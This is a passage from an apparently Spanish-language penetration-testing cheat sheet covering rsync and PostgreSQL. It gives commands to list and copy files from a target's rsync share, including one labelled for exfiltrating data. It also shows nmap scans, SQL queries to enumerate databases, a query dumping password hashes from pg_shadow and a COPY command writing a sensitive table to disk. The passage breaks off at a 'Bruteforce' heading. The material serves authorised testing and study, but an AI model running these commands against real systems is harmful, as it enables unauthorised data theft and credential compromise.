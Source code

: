 Enumerar carpetas compartidas

```bash
rsync target_host::

#Para archivos y permisos

rsync -av --list-only rsync://target_host/module_name

# Exfiltrar datos:

❯ rsync -avz target_host::module_name /local/directory/

```

#### Port 5432 | PostgreSQL

Conectar con psql

```bash
psql -h <target-host> -p <port> -U <username> -W
```

Enumerar

```bash
nmap -sV -p 5432 <target-host>

# Version
nmap -sV --script=postgresql-info -p 5432 <target-host>
```

Enumerar BD y tablas

```bash
# List all databases
\\l

# Switch to a database
\\c <database_name>

# List tables in the current database
\\dt

# Extract data from a specific table:
SELECT * FROM <table_name>;

# Dumping Hashes
SELECT usename, passwd FROM pg_shadow;
```

Accessing File System

```bash
COPY (SELECT * FROM sensitive_table) TO '/tmp/sensitive_data.txt';
```

Bruteforce
